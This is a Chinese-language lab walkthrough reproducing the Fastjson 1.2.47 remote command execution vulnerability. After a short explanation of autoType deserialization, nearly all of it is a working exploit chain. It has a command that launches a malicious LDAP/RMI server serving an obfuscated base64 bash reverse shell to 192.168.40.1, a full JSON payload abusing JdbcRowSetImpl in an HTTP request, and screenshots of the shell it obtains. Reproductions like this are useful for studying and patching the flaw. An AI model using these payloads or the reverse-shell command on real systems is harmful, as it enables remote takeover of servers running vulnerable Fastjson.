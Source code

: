 # Fastjson 1.2.47 远程命令执行漏洞

> 漏洞说明

fastjson是阿里巴巴的开源json解释器，解析json的格式化字符串，用于将Java Bean序列化json字符串，也可以把json字符串反序列化成Java Bean

fastjson在解析json的过程中，支持使用autoType来实例化某一个具体的类，并调用该类的set/get方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。



> 前提条件



> 利用工具



> 漏洞复现

启动漏洞环境，访问http://192.168.40.77:8090

![image-20230102235613894](../img/Fastjson_1.2.47RCE/image-20230102235613894.png)

使用工具打开rmi或ldap服务

```shell
java -cp fastjson_tool.jar fastjson.HLDAPServer2 192.168.40.1 4321 "bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC40MC4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}"
```

![image-20230103000134813](../img/Fastjson_1.2.47RCE/image-20230103000134813.png)

抓包将payload加入请求数据包

```http
POST http://192.168.40.77:8090/ HTTP/1.1
Host: 192.168.40.77:8090
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=a52d85da4c3b5ca6eaa5adeed3cbf37f
Connection: close
Content-Type: application/json
Content-Length: 187

{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://192.168.40.1:4321/Object","autoCommit":true}}

```

开启监听

![image-20230102235907257](../img/Fastjson_1.2.47RCE/image-20230102235907257.png)

发送请求包成功反弹shell

![image-20230103000255259](../img/Fastjson_1.2.47RCE/image-20230103000255259.png)
